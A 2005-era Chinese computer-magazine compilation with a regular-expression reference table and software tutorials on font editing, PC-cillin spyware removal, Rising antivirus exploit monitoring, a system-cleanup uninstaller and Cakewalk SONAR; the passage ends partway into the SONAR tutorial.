本刊在2005年第11期《几小时变几秒钟——正则表达式实例秀》一文已经介绍过正则表达式的应用，现在再通过下面表格为大家介绍一些正则表达式的含义。（大连 杜博）

| 字符 | 描述 |
| :--- | :--- |
| \ | 将下一个字符标记为一个特殊字符、或一个原义字符、或一个向后引用、或一个八进制转义符。例如，'\n'匹配字符"n"。'\n'匹配一个换行符。序列 '\\' 匹配 "\" 而 "\(" 则匹配 "("。 |
| ^ | 匹配输入字符串的开始位置。如果设置了 RegExp 对象的 Multiline 属性，^ 也匹配 '\n' 或 '\r' 之后的位置。 |
| $ | 匹配输入字符串的结束位置。如果设置了 RegExp 对象的 Multiline 属性，$ 也匹配 '\n' 或 '\r' 之前的位置。 |
| * | 匹配前面的子表达式零次或多次。例如，zo* 能匹配 "z" 以及 "zoo"。* 等价于{0,}。 |
| + | 匹配前面的子表达式一次或多次。例如，'zo+' 能匹配 "zo" 以及 "zoo"，但不能匹配 "z"。+ 等价于 {1,}。 |
| ? | 匹配前面的子表达式零次或一次。例如，"do(es)?" 可以匹配 "do" 或 "does" 中的 "do"。? 等价于 {0,1}。 |
| {n} | n 是一个非负整数。匹配确定的 n 次。例如，'o{2}' 不能匹配 "Bob" 中的 'o'，但是能匹配 "food" 中的两个 o。 |
| {n,} | n 是一个非负整数。至少匹配 n 次。例如，'o{2,}' 不能匹配 "Bob" 中的 'o'，但能匹配 "fooooood" 中的所有 o。'o{1,}' 等价于 'o+'。'o{0,}' 则等价于 'o*'。 |
| {n,m} | m 和 n 均为非负整数，其中 n <= m。最少匹配 n 次且最多匹配 m 次。例如，"o{1, 3}" 将匹配 "fooooood" 中的前三个 o。'o{0,1}' 等价于 'o?'。请注意在逗号和两个数之间不能有空格。 |
| ? | 当该字符紧跟在一个其他限制符（*, +, ?, {n}, {n,}, {n,m}）后面时，匹配模式是非贪婪的。非贪婪模式尽可能少地匹配所搜索的字符串，而默认的贪婪模式则尽可能多地匹配所搜索的字符串。例如，对于字符串 "oooo"，'o+?' 将匹配单个 "o"，而 'o+' 将匹配所有 'o'。 |
| . | 匹配除 "\n" 之外的任何单个字符。要匹配包括 '\n' 在内的任何字符，请使用像 '[.\n]' 的模式。 |
| (pattern) | 匹配 pattern 并获取这一匹配。所获取的匹配可以从产生的 Matches 集合得到，在 VBScript 中使用 SubMatches 集合，在 JScript 中则使用 $0…$9 属性。要匹配圆括号字符，请使用 '\(' 或 '\)'。 |
| (?:pattern) | 匹配 pattern 但不获取匹配结果，也就是说这是一个非获取匹配，不进行存储供以后使用。这在使用 "或" 字符 (|) 来组合一个模式的各个部分是很有用的。例如，'industr(?:y|lies) 就是一个比 'industry|industries' 更简略的表达式。 |
| (?=pattern) | 正向预查，在任何匹配 pattern 的字符串开始处匹配查找字符串。这是一个非获取匹配，也就是说，该匹配不需要获取供以后使用。例如，"Windows (?=95|98|NT|2000)" 能匹配 "Windows 2000" 中的 "Windows"，但不能匹配 "Windows 3.1" 中的 "Windows"。预查不消耗字符，也就是说，在一个匹配发生后，在最后一次匹配之后立即开始下一次匹配的搜索，而不是从包含预查的字符之后开始。 |
| (?!pattern) | 负向预查，在任何不匹配 pattern 的字符串开始处匹配查找字符串。这是一个非获取匹配，也就是说，该匹配不需要获取供以后使用。例如"Windows (?!95|98|NT|2000)" 能匹配 "Windows 3.1" 中的 "Windows"，但不能匹配 "Windows 2000" 中的 "Windows"。预查不消耗字符，也就是说，在一个匹配发生后，在最后一次匹配之后立即开始下一次匹配的搜索，而不是从包含预查的字符之后开始。 |
| x|y | 匹配 x 或 y。例如，'z|food' 能匹配 "z" 或 "food"。'(z|f)ood' 则匹配 "zood" 或 "food"。 |
| [xyz] | 字符集合。匹配所包含的任意一个字符。例如， '[abc]' 可以匹配 "plain" 中的 'a'。 |
| [^xyz] | 负值字符集合。匹配未包含的任意字符。例如， '[^abc]' 可以匹配 "plain" 中的'p'。 |
| [a-z] | 字符范围。匹配指定范围内的任意字符。例如，'[a-z]' 可以匹配 'a' 到 'z' 范围内的任意小写字母字符。 |
| [^a-z] | 负值字符范围。匹配任何不在指定范围内的任意字符。例如，'[^a-z]' 可以匹配任何不在 'a' 到 'z' 范围内的任意字符。 |
| \b | 匹配一个单词边界，也就是指单词和空格间的位置。例如， 'er\b' 可以匹配"never" 中的 'er'，但不能匹配 "verb" 中的 'er'。 |
| \B | 匹配非单词边界。'er\B' 能匹配 "verb" 中的 'er'，但不能匹配 "never" 中的 'er'。 |
| \cx | 匹配由 x 指明的控制字符。例如， \cM 匹配一个 Control-M 或回车符。x 的值必须为 A-Z 或 a-z 之一。否则，将 c 视为一个原义的 'c' 字符。 |
| \d | 匹配一个数字字符。等价于 [0-9]。 |
| \D | 匹配一个非数字字符。等价于 [^0-9]。 |
| \f | 匹配一个换页符。等价于 \x0c 和 \cL。 |
| \n | 匹配一个换行符。等价于 \x0a 和 \cJ。 |
| \r | 匹配一个回车符。等价于 \x0d 和 \cM。 |
| \s | 匹配任何空白字符，包括空格、制表符、换页符等等。等价于 [ \f\n\r\t\v]。 |
| \S | 匹配任何非空白字符。等价于 [^ \f\n\r\t\v]。 |
| \t | 匹配一个制表符。等价于 \x09 和 \cI。 |
| \v | 匹配一个垂直制表符。等价于 \x0b 和 \cK。 |
| \w | 匹配包括下划线的任何单词字符。等价于 '[A-Za-z0-9_]'。 |
| \W | 匹配任何非单词字符。等价于 '[^A-Za-z0-9_]'。 |
| \xn | 匹配 n，其中 n 为十六进制转义值。十六进制转义值必须为确定的两个数字长。例如，'\x41' 匹配 "A"。'\x041' 则等价于 '\x04' & "1"。正则表达式中可以使用 ASCII 编码。 |
| \num | 匹配 num，其中 num 是一个正整数。对所获取的匹配的引用。例如，'(.)\1' 匹配两个连续的相同字符。 |
| \n | 标志一个八进制转义值或一个向后引用。如果 \n 之前至少有 n 个获取的子表达式，则 n 为向后引用。否则，如果 n 为八进制数字 (0-7)，则 n 为一个八进制转义值。 |
| \nm | 标志一个八进制转义值或一个向后引用。如果 \nm 之前至少有 nm 个获得子表达式，则 nm 为向后引用。如果 \nm 之前至少有 n 个获取，则 n 为一个后跟文字 m 的向后引用。如果前面的条件都不满足，若 n 和 m 均为八进制数字 (0-7)，则 \nm 将匹配八进制转义值 nm。 |
| \nml | 如果 n 为八进制数字 (0-3)，且 m 和 l 均为八进制数字 (0-7)，则匹配八进制转义值 nml。 |
| \un | 匹配 n，其中 n 是一个用四个十六进制数字表示的 Unicode 字符。例如， \u00A9 匹配版权符号 ?。 |

## ‘送’别！让英文软件不再仅支持“宋体”

很多英文软件不支持中文字体，很多英文软件虽然支持中文，但显示出来的文字全都是宋体，怎么办呢？不如看看本文作者“山高水长”是如何解决这个大问题的吧。

### 1. 为什么要改？

由于笔者是个视频编辑爱好者，经常自己编辑一些拍摄的视频文件，然后刻录成VCD碟片，给家人和亲友观看。但家用级的视频编辑软件，在处理字幕时，功能都过于单调，不能满足笔者想制作出像电视台那样字幕特效的欲望。

一次偶然的机会，笔者上网接触到了一款名为Heroglyph(下载地址:http://nj.onlinedown.net/soft/40510.htm)的字幕软件，如获至宝。因为它是一款专业的视频字幕制作软件，可以做出众多字幕特效，并且软件系统自带多种效果模版，能很方便地调用。它还可以作为插件在很多视频编辑软件中调用，如Premiere，Sony Vegas等。

该软件的最新版本为2.0，支持中文字体。通过简单的步骤就可以制作出类似《星球大战》那样的字幕效果。

但是，笔者拿到这款软件以后还没高兴十分钟，就发现了问题：该软件对中文支持不够好，只支持宋体。虽然也可以对字体进行边框、阴影修饰等，但远远不能满足追求完美效果的笔者需求，难道就这样束手无策了吗？

### 2. 怎么改？

由此引发了一个思路，一是对软件进行修改，让它可以识别不同的中文字体，二是对字体文件进行修改，让软件来支持。第一个显然比较麻烦，需要对软件进行多方面的修改。于是只有在字体文件上下功夫了。下面就请跟我一步一步来学习如何修改中文字体，使对中文支持不好的软件也能支持字体效果。

#### 3. 改就要改得彻底

要想修改字体文件，这里要用到一款名为“Font Creator Program”的软件（以下简称FCP）。你可以从 http://www.newhua.com/cfan/200517/fcp4setup.exe 下载到，然后再从 http://www.newhua.com/cfan/200517/ha_fcp4.rar 下载到它的汉化包。

- 第一步：打开FCP，选择菜单中的“文件→打开→字体文件”，调入一个待修改的字体文件，比如“方正北魏楷书简体”，进入字体的修改界面。
- 第二步：依次点击“格式→设置”菜单项，选择“范围”标签，点击“代码页字符范围”下的“编辑”按钮，打开“代码页范围设置”窗口，勾选“拉丁文1”项。
- 第三步：经过测试，如果仅仅是修改上面的内容，字体文件虽然可以在Heroglyph中使用，但字距过小，文字会重叠到一起，我们还要继续修改。同样是在“格式→设置”菜单项中的“范围”标签下，“平均字符宽度”在修改前和修改后的数值是不同的，未修改是128，修改后为101，这就是问题所在。

> **小提示**
> 不同字体，“平均字符宽度”有所不同，有的字体根本无需修改字符宽度，同样可以使用。

- 第四步：点击菜单中的“工具→自动度量”项，打开“自动度量向导”对话框，用鼠标左键点“>>(添加所有可用字模)”按钮，点击“下一步”，然后设置字符前后空白，一般是这里的“完成”按钮。
- 第五步：再次打开“格式→设置”菜单项下的“范围”标签，这时可以看到“平均字符宽度”为160，而不是正常的128。这是由于在自动度量时，没有设置好字符前后的空白所致，字符宽度不正常，是160，比正常的128大了许多。不要紧，我们来计算一下所需的正确参数。

用计算出的160减去128，得到数值32；用32除以2（是因为空白数值每增大或减少一个单位，字符宽度数值将增大或减少两个单位），得到数值16。原来默认的字符前后空白数值都是40，而得到的字符距离是160，说明空白数值过大，所以用40减去16得到的数值是24。

- 第六步：重新点击“工具→自动度量”，将字符前后的空白都填入数值24，然后点击“完成”按钮，回到软件的主界面。进入“格式→设置”菜单项下的“范围”标签，点击“平均字符宽度”旁边的“计算”按钮，可以看到计算出的参数已经是正确的128了。
- 第七步：为了区分修改后的字体和原版的字体，使他们能在字体文件夹里面和平共处，还有必要修改一下字体文件名，否则无法安装。点击菜单中的“格式→命名”，会弹出“命名”对话框。
- 第八步：选择“Microsoft Unicode”平台，并点击下面的“中文 - 中国”语言，然后在右侧进行重命名。注意，这里的中文字体名称将以Unicode编码来显示，需要一款小的编码查询软件——“彩虹汉字编码查询器”(下载地址:http://www.onlinedown.net/soft/30850.htm)来查询我们要修改的汉字的Unicode编码。

比如，要将“方正魏碑楷书简体”的名字前面加上“影视”两个字。用彩虹汉字编码查询器查到“影视”两个字的Unicode编码为5F71及89C6，因此在字体名称框中前面加上“\5F71\89C6”。注意前面一定要加上“\”，否则字体名称将不能正常显示。修改后保存退出，字体名就被修改了。

字体文件经过修改以后，所有的汉字字体都可以由Heroglyph来正确识别和调用。使Heroglyph超强的字幕功能得以完美地体现。

> **(黑龙江 山高水长)**

## PC-cillin 2005 让间谍软件“滚”开

很多朋友都会有这样的疑问：间谍软件有什么可怕的？最多安装一个网络防火墙不就能阻止了吗？其实许多潜在的Internet威胁并不是常见的病毒或木马程序，而是一些危及个人隐私安全或是对电脑进行骚扰的应用程序，其中间谍软件就能监视我们使用电脑的习惯以及个人信息，然后将这些信息在未经许可的情况下发送出去，比如访问的Web站点、按键记录或屏幕快照等信息都会在不知不觉中泄漏出去。

虽然可以安装网络防火墙加以防护，但对于间谍软件而言效果并不明显。比如安装Kazaa这款P2P软件后就会附带安装一些广告软件，除非在防火墙中设定禁止Kazaa访问Internet的权限，否则与Kazaa捆绑集成的广告软件就有可能将个人信息发送给第三方。而且目前还有很多网站采用默认安装ActiveX控件的方式让你浏览网页时被强行安装了间谍软件，可见仅仅通过防火墙的拦截作用并不能有效地阻止间谍软件泄密。

### 用 PC-cillin 2005 清理间谍软件

趋势科技PC-cillin 2005网络安全版，是一款综合性的入门级网络安全产品，包含了丰富的产品特性，不仅能保护个人单机应用环境，而且可以扩展到对家庭/SOHO小型网络的有效防护。并且PC-cillin2005内嵌的增强的“间谍程序清除系统”可以主动检查发现并有效去除各种间谍程序、广告软件、Cookies等。

> **小提示**
> 为了能彻底抵御间谍软件的侵袭，建议事先在这里进行Windows漏洞的修复，这对于提升计算机的安全级别可是大有裨益的：运行PC-cillin 2005之后，首先在程序主窗口中通过“系统→安全检查”命令激活安全漏洞检测窗口，点击“检查”按钮之后程序将连接到微软官方网站进行检测，一旦有漏洞就会列表显示，再点击“Windows更新”按钮即可。完成这一步之后，我们就可以借助PC-cillin 2005来扫描并清理间谍软件了。

- 第一步：在PC-cillin 2005中依次点击“系统→扫描设置”，并且在出现的窗口中点击“间谍软件防护”标签，此时可以根据需要选择诸如间谍软件、黑客工具、远程访问工具等所有对计算机具有潜在威胁的项目。
- 第二步：点击PC-cillin 2005窗口中的“扫描间谍软件”按钮，这时程序将自动激活扫描组件对系统进行彻底检测，完成后会列出所有的间谍程序（见图）。
- 第三步：虽然检测出来这么多间谍软件，但并非所有被识别出来的应用程序都对电脑有害，可以选中可疑软件并点击“更多信息”按钮，打开趋势官方网站查看相关具体信息，待确认是间谍软件无误之后再按下“删除”键将其清理出硬盘。



### 和间谍软件说“再见”

对于很多朋友来说，频繁进行完整扫描不太实际，怎样才能有效避免间谍软件的侵扰，彻底和它们说“再见”呢？在日常上网冲浪或者使用计算机的过程中，主要注意下述几个方面：

- ①安装软件不要一路“下一步”。在安装任何软件时都要注意阅读“最终用户授权合约书”，里面有些会提到收集用户信息的条款。还要注意软件捆绑的扩充程序，其中有些就是间谍程序。
- ②当上网冲浪或使用某些软件时，除非确定软件作者和正在查看的网站非常可信，否则不要对询问是否希望下载和安装软件的任何消息单击“是”，很多朋友就是这里的一时疏忽而让间谍软件有了漏洞可钻。
- ③如果收到电子邮件中存在其他链接或者浏览网页的时候出现弹出广告，一般情况下尽量不要点击，这能够减少间谍软件利用IE漏洞入侵的可能性。
- ④在IE中将“Internet区域”安全级别设置为“高”，如果导致一些网站访问出错，则可以将受信任的站点的安全级别适当降低，然后单击站点并添加要访问的站点。

除去日常使用中要注意的几方面之外，PC-cillin 2005也可以像其他杀毒软件一样通过实时扫描方式驻留在系统后台进行监测。此时只需在如图所示窗口中勾选需要监测的项目，接着运行“系统→扫描设置”命令，并且在“实时扫描”标签下选中“启用实时扫描”一项，这样一不小心受到间谍软件威胁，程序还会立即弹出预警信息引起我们的警觉了。

> **(未名)**

## 瑞星杀毒软件2005的漏洞攻击监控

这天又出现了让我头痛的问题，公司网络大瘫痪。不过这回和以前可不同了，我马上发现了“毒源”，原来是小A的电脑。当我走到小A的面前，告诉他中毒的时候，他还一脸无辜，问我是怎么知道的，这个秘密当然只有我知道……
其实这是因为我安装了瑞星2005版，并启用了“漏洞攻击监控”的缘故。记得“冲击波”和“震荡波”吗？它们都是利用微软操作系统漏洞通过网络进行攻击和传播的病毒。想必大家一定对当时的60秒关机窗口记忆犹新，当时对付它们只有依靠安装微软提供的漏洞补丁，而漏洞监控系统就是一种打补丁之外的选择。瑞星杀毒软件2005版中的漏洞攻击监控系统是针对远程攻击漏洞开发的一套监控系统。漏洞攻击监控功能启用后一旦发现系统受到攻击，会进行拦截并列出详细监控信息。



计算机感染冲击波、震荡波病毒后会向外发送数据包，利用漏洞监控系统可以快速定位染毒的计算机，在局域网环境中更能发挥作用。漏洞监控攻击系统只能对利用漏洞的远程攻击进行检测和拦截，但并不是所有的漏洞都可以被用作远程攻击，有些漏洞是在你访问特定的网页时才让你中毒，因此仍然有必要安装微软公告中的一些关键补丁程序。那么这套系统究竟是怎么工作的呢？先来看一下工作示意图(见图)。
漏洞攻击监控是建立在操作系统之上的，数据包在到达操作系统之前先要经过漏洞攻击监控的检验。因此，不管操作系统是否安装了补丁，只要漏洞攻击监控检测到所有针对本机的攻击数据就会进行拦截并报警提示，使病毒的攻击无功而返。
发现有针对本机的漏洞攻击时，软件会提示用户发现并拦截了攻击行为。
另外，对于漏洞攻击这一新生事物，目前最好的办法就是打上相应补丁或开启专业的网络防火墙来抵挡攻击。瑞星的漏洞监控系统很好地与杀毒软件进行结合，无需开启网络防火墙就可以保护爱机不受漏洞攻击。
(瑞星工程师 史瑀)

## 系统轻松大减负，完美卸载好伴侣

电脑用久了，系统运行速度越来越慢。究其原因，无非是安装软件过多，硬盘上垃圾数据成堆；无意间中了病毒、木马或有恶意网站给你安装了无聊的插件等。虽然我们可以手工查找、卸载或删除这些无用软件、病毒、木马等，但却很麻烦而且还容易误删文件，错杀好“人”，甚至使系统都无法正常启动。如果你有这样的烦恼，那不如借用Windows黄金拍档——完美卸载V2005(以下简称完美卸载)来帮助清洁一下系统吧！

### 实例1:垃圾软件、广告插件一个也不要

- 第一步:首先从http://nj.onlinedown.net/soft/6048.htm下载新版完美卸载V2005，一路单击“下一步”完成安装。双击桌面上的完美卸载图标启动它。
- 第二步:首先来试用一下“软件卸载”功能。点击“软件卸载”图标，打开对话框，在这个对话框右侧我们可以看到自己操作系统内安装的各种软件。
- 第三步:点选右侧自己想要卸载的软件名称，然后点击左侧的“软件信息”按钮来查看该软件的详细信息，可以通过“软件自带卸载信息”项中的软件路径信息来判断自己是否会错删软件，确定无误后，点击“卸载软件”按钮便可卸载此软件了。卸载完成后，如果软件名称还显示在卸载列表中，可单击“刷新窗口”按钮刷新一下。

> **小提示**
> 清除卸载列表中的垃圾
> 如果点击“卸载软件”按钮发现系统根本没有反应，我们可以在“软件信息”中查阅到软件详细安装路径，然后在资源管理器中打开此目录查找其中是否存在软件文件，如果发现该目录已空或不存在，证明此软件已经被卸载，显示在此处的软件名称实际上已经成为垃圾，这时便可以点击“删除清单”按钮来清理它了。

- 第四步:上网浏览时会碰到各种不请自来的插件，这些插件的卸载特别麻烦，我们可以使用完美卸载的“插件卸载”来一步搞定它。点击左侧“插件卸载”按钮，其中“卸载信息”中各项均是英文表示，你可以通过名单来判断是否需要卸载，以MS打头的三个是微软的产品，下面的“ShockwaveFlash”为Flash插件，用来播放Flash动画，WinZIP则是著名的压缩软件，这些都不建议卸载。重点是“特殊卸载”，在这里列出了目前常见的各种广告插件，我们要注意“是否安装”项中的提示信息，如果标有“存在”字样，就可以选择它，再单击“卸载”即可。

### 实例2:顽固软件杀无赦

是不是经常遇到这样的棘手软件:安装后在“控制面板→添加或删除程序”中没有反安装程序或信息，即使用“完美卸载”的“软件卸载”项也找不到它的踪影，这时你可以试试“智能卸载”。

- 第一步:点击完美卸载主界面中的“智能卸载”按钮，会弹出有三个选项的智能卸载向导，根据自己实际情况选择其一，如笔者选择的是“我要卸载的程序没有任何快捷方式，只是一个可执行的EXE文件”，点击“下一步”按钮。
- 第二步:在随后弹出的“打开”对话框中，找到自己电脑硬盘上要卸载的这个EXE文件，点击“打开”按钮，然后完美卸载就会自动分析与这个EXE文件有关的文件、文件夹及注册表关联项目并将结果显示在窗口中，最后我们直接点击“智能卸载”按钮就能将此顽固软件彻底卸载了。

> **小提示**
> 在点击“智能卸载”按钮之前建议大家一一查看并确认对话框中显示的文件、文件夹及注册表项目，确认无用后再卸载，如果认为某项不能卸载，可用鼠标点选该项，然后单击“取消该项”按钮，这样完美卸载就不会卸载此项了。

### 实例3:系统大扫除，还电脑年轻态

大量垃圾文件的存在是造成系统运行速度缓慢的重要原因之一，使用完美卸载的垃圾清理功能就能给你的系统做次彻底大扫除，让你的系统恢复刚安装优化时的年轻态。

- 第一步:在完美卸载主界面，点击“快捷清理”图标，在打开的窗口中单击“扫描系统”按钮，就可以找出系统中那些废弃无用的快捷方式了，选中它们，单击“删除目标”即可。
- 第二步:点击“闪电清理”图标打开闪电清理窗口，在这里可以清除三大类垃圾:上网垃圾(如IE缓存、IE历史记录、IE Cookie、网址保存记录等)，文档垃圾(如回收站、剪贴板、“运行”记录、文档历史记录等)，软件垃圾(一些常用软件，如Winzip、WinRAR、RealOne等软件产生的垃圾等)。根据提示进行选择，然后单击“立即进行清理”按钮就可以了。
- 第三步:点击主界面中的“垃圾清理”图标，可以清除扩展名为*.BAK、*.TMP、*.old等垃圾文件。在“垃圾清理”窗口中，点击“扫描系统”，稍等片刻就会得到系统内垃圾文件列表，用鼠标勾选要删除的文件项目然后点击“删除垃圾”按钮就能将垃圾彻底清除掉了。
不过，完美卸载未注册用户不能使用全选功能，只能用鼠标一一点选垃圾文件列表中的文件项目，比较麻烦。但是经过前两步的处理后，垃圾文件已经少了很多，大大减小的选择文件的工作量。
- 第四步:单击主界面中“高级清理”图标，这是一个功能更为强大的清理工具，对话框中有多个标签页可实现不同的功能。由于对注册表进行清理风险较大，我们首先点击“备份注册表”按钮将注册表备份到“C:\RegBakup”中，然后点击“软件项目”标签卡，勾选其下的垃圾软件数据，然后点击“删除”按钮删除。最后再切换到其他清理功能标签页上，按照同样方法清理垃圾数据，恢复系统的年轻态。不过要注意的是:这个对话框中所列出的项目，不一定就是垃圾数据，选择删除的时候一定要小心，好好确认一下再操作。
- 第五步:单击主界面上的“DLL清理”图标，在打开的窗口中点击“扫描分析”按钮可找出系统中的冗余的DLL文件，显示为红色的DLL文件不能删除，显示为绿色的也可以删除，但如果你安装了双系统，最好不要进行DLL清理操作，很容易出错。如果清除DLL文件后，系统出现异常，可单击“还原恢复”按钮，选择完美卸载自动备份的DLL文件包，恢复一下试试。
经过以上几步的处理，系统就变得干净多了。

### 实例4:系统错误，不除不快

比垃圾文件更能损毁操作系统的是错误文件，相对于硬盘上大量存在的无用备份文件、无效DLL文件等垃圾，系统内部存在的错误更加让人难以容忍，实在是不除不快。

- 第一步:运行“完美卸载”，点击主界面的“系统修复”按钮，这时会弹出“Windows系统医生”，点击医生为我们提供的“扫描注册表”按钮，就能为我们找到大量隐藏在Windows注册表中的错误信息，如无效的应用程序、无效的驱动程序、错误的字体等。
- 第二步:扫描完成之后，直接点击“修复所有错误”按钮便可轻松修复所有发现的系统错误了，如果你尚未注册此软件，就需要一一手动勾选错误，再点击“修复指定错误”按钮来修复。强烈建议大家在点击“修复”按钮之前，执行“备份扫描结果”命令，这样就可以为自己的操作定制一副后悔药，当你发现因修复注册表而造成系统异常时，就可以点击“恢复以前操作”按钮来时光倒流了。
- 第三步:完成系统修复后再进行一下系统优化。在主界面中点击“系统优化”按钮，弹出“请选择你的优化方式”对话框，初学者建议选择“启动系统优化向导”项，点击“确定”。然后根据设置向导，选择“电脑用于何种用途”，一般用户选择“普通应用”便可，请大家根据自己电脑实际情况自由选择。还可以勾选“系统优化”向导为你提供的各种优化选项，如“自动释放内存中不再使用的动态链接库”等。根据向导提示一步一步完成设置(如网络优化、硬盘优化、系统加速、文件保护、调整缓存及临时文件夹的位置等)，最后重启你的计算机便搞定了。

### 实例5:免费送你一个“加密盘”

无论是公用电脑还是自家PC，保护个人隐私和数据安全永远是个大问题，用电脑的人难免有些秘密数据，如何保护自己的这些宝贵数据呢?试试“完美卸载”提供的“文件加密”功能吧。

- 第一步:在主界面中点击“文件加密”图标，在打开的向导窗口中选择“我想创建一个新的保险箱，并为保险箱指定一个盘符”项，点击“下一步”，然后选择一个盘符，比如笔者选择的是“G:”(注意，不要使用系统中已有的盘符)并输入你的数据保险箱密码，最后点击“创建磁盘”按钮。
- 第二步:这时系统会自动打开你创建的盘符目录，也可以在资源管理器中发现新增加了一个“G:”盘符，就像对普通的磁盘一样，可以进行复制、粘贴、新建、删除等各种文件操作。将需要加密的文件拖到这个盘符目录中，然后鼠标右键点击桌面右上角出现的“磁盘 G:”(G为盘符)悬浮图标，选择“关闭当前保险箱”命令将它关闭。这时，这个虚拟盘就会从系统中消失，其他人就无法找到它了，因此能很好地保护你的数据。
- 第三步:当你想使用自己的隐私数据时，同样点击完美卸载主界面中的“文件加密”按钮，然后选择“我想打开一个保险箱使用”，下一步点击“浏览”在完美卸载的安装目录中找到你的数据保险箱文件，单击“打开保险箱”按钮，输入密码，就能顺利打开你的数据保险箱了，此时就可对虚拟盘符中的文件进行各种操作。

> **小提示**
> 此文件加密功能适合于对安全要求不高的场所，如果你有非常重要的机密文件需要加密，建议你还是选择专业的加密软件。不过，完美卸载所提供的加密功能，用来预防一般泄密事件的发生已经足够了。

### 实例6:驱动大备份，系统重装不再怕

完美卸载的“驱动管理”有一个非常有趣的功能，它可以将备份的驱动程序打包成一个可自动安装驱动的EXE文件，这样在我们重装系统时，就能省却许多麻烦，不用“东奔西走”找驱动程序了。

- 第一步:点击主界面中“驱动管理”图标，打开“驱动管理大师专业版”对话框，在软件界面右侧是你的设备名称，勾选你想备份的设备名称(可多选)，然后点击“收集备份”按钮，在随后出现的对话框中选择“是”，接着设置收集到的压缩包的保存路径，单击“OK”确认即可(如果选择了多个设备，需多次确认)。
- 第二步:重装系统后，再次运行完美卸载的驱动管理大师，单击“恢复驱动”，选择上面备份的驱动程序包文件恢复就可以了。

其实在备份驱动的时候，也可以点击“制作EXE”按钮，在随后的“打开”对话框中找到以你的设备名称命令的“驱动备份包(*.pak)”文件，单击“打开”按钮，片刻后就会出现完成对话框，其中已经详细告知你自安装包的保存路径，你只需将此驱动自安装包复制到安全地方，以后重装系统时，双击执行它就可以恢复驱动程序了。

### 实例7:系统分区空间紧，给XP/2003减肥

C盘是各种软件的“兵家必争之地”，不但操作系统要在里面安营扎寨，许多应用软件也都默认安装在C盘，它们还会写注册表或向系统文件夹内拷贝文件，时间一长，C盘空间自然捉襟见肘，用完美卸载的减肥工具便可为你的XP/2003减肥，使你的系统分区空间不再紧张。

点击主界面右上角的“其他功能”按钮，选择“WinXP/2003减肥工具”命令打开“WindowsXP减肥专家”工具窗口，在其中勾选你要给XP减肥的项目，如“XP的其他驱动程序”等，选择完毕后，点击“开始减肥”按钮就可以了。

注意:这个工具的使用风险较大，仅适合对系统非常了解的高手使用。如果对系统不太熟悉，可将光标移动到“减肥”项目上悬停片刻，这时减肥专家就会告诉你这个“减肥”项目的详细情况，帮助你选择是否减肥。如果减肥后弹出“Windows文件保护”对话框，选择“取消”；如果减肥后造成系统不稳定，可从XP系统的回收站中还原减肥专家删除的文件，使系统恢复正常。

每个人计算机系统的环境千差万别，安装的操作系统及应用软件等也各不相同，在使用“完美卸载”时，有些人的系统可能会出现异常。所以在运行“完美卸载”进行维护、优化之前，如果你的电脑中有非常重要的数据，一定要做好安全备份工作哦。

（河北 闫艳力）

## 胜似闲庭信步，轻松圆你作曲梦——Cakewalk SONAR 4.0实战

只要拥有一台电脑、一块声卡、一台MIDI键盘，你就能打造出自己的专业音乐工作室，谱写出美妙的音乐来。如果你仅仅是一时兴起，想体验一下作曲家的感受，那甚至连MIDI键盘都不用购买，直接将电脑键盘虚拟成MIDI键盘就可以了。当然，硬件只是“躯体”、软件才是“灵魂”，有了上述的硬件，还需要借助Cakewalk，SONAR这款专业的音序器软件，才能尽情展现你头脑中的美妙音符。

### 芝麻开门 什么是MIDI?

MIDI是英文Musical Instrument Digital Interface(乐器的数字化接口)的缩写，它实际上就是一种通信协议，使得各种电子乐器之间，以及电子乐器与计算机之间能够兼容通信(如将电子琴、电吉他与电子合成器相连)。也就是说，必须让所有的电子乐器说着“同一种语言”，大家才能互相沟通。

不过我们平时口中所说的MIDI，指的则是后缀为“.mid”的音乐文件。电脑上记录音乐的方式大致有两种，一种是波形文件，典型的格式为“*.wav”，它是通过对声音的真实录制而得到的；另一种是乐谱文件，典型的格式即为“*.mid”了，它并不是忠实地原音录制，而是把声音都符号化了，它的原理就如同简谱只用7个数字及一些附加符号来记录所有的音乐旋律一样。当然，“*.mid”文件格式都是以MIDI接口规范为前提的，因此能被各种电子乐器及计算机所识别。

波形文件是对声音的真实录制，与乐器无关，可以保证重放质量，在任何设备上播出的效果都是一样的(这些是MIDI文件无法比的)，但它无法将其中的音乐元素直接转变成乐谱，编辑修改起来非常麻烦；相比之下，MIDI文件就灵活得多，由于它记录的是乐谱，对乐曲的某个音符进行修改，更换音乐或移调等，都轻而易举(这在波形文件中是不可想象的)。另外，MIDI文件很小，常是波形文件的几百分之一，大大节约磁盘空间。在Cakewalk SONAR中，可以对这两种类型的声音进行完美的整合。

### 实例1:流行歌曲摇身变MIDI音乐

本例将教你如何在Cakewalk SONAR中输入乐谱，轻轻松松将流行歌曲变成MIDI音乐。要是把自己制作的MIDI音乐导入手机中作为和弦铃声，听起来感觉肯定会不一样吧。本文还特意为朋友们准备了一些流行歌曲的乐谱，供大家练习使用，并有一些制作好的MIDI作品供你欣赏，有兴趣的读者可从http://www.newhua.com/cfan/200517/music.rar处下载。

### 第一步:设置输入/输出端口

第一次运行Cakewalk SONAR 4.0(以下简称SONAR)，首先要设置输入/输出端口，否则SONAR会不出声音的。

执行菜单“Options→MIDI Devices”命令打开MIDI端口设置对话框，笔者没有外接MIDI键盘，所以左侧输入窗格中只有一项声卡输入“Creative External MIDI”(各人声卡不同，此项各异)，点选它使其高亮显示；右侧窗格用来设置输出端口(即发声的端口)，一般选择与输入端口不同的那一项(该窗格中有一项“Microsoft MIDI映射表”，这是操作系统自带的音源，一般不选)，本例，笔者点选“Creative SW Synthesizer”项(各人声卡不同，此项也各异)，再点击“Move Selected Devices to Top”按钮将它移到最上层；设置完毕，单击OK退出。

> 小提示
> 如果使用的是主板集成声卡，则右侧输出窗格中可能只有MIDI映射表一个端口，这个端口一般无法发声，这时只有两种选择:1.购买一块新声卡，比如笔者使用的就是创新(Creative)的声卡；2.尝试安装一个软波表(如YAMAHA系列软波表)，看看是否有声音，如果还是不行，那就只能购买一块新声卡了。

### 第二步:新建一个项目

单击菜单命令“File→New”打开新建项目窗口，一般选择normal项，将会建立一个包括两个音频轨和两个MIDI轨的项目，看起来较为复杂的样子。作为初学者，并且本例只想制作MIDI，为简单起见，这里我们选择“midi only”项，单击OK。主界面中的Track 1、Track 2等表示的是音轨，默认有16条，每一条音轨中可独立放置某一特殊乐器的乐谱。单击每条音轨上的还原按钮(两个交叠的小方块图标)可展开音轨，单击最小化按钮(即“_”图标)可折叠音轨，默认已经展开第一条音轨(Track 1)了。

### 第三步:设置节拍、调号和速度

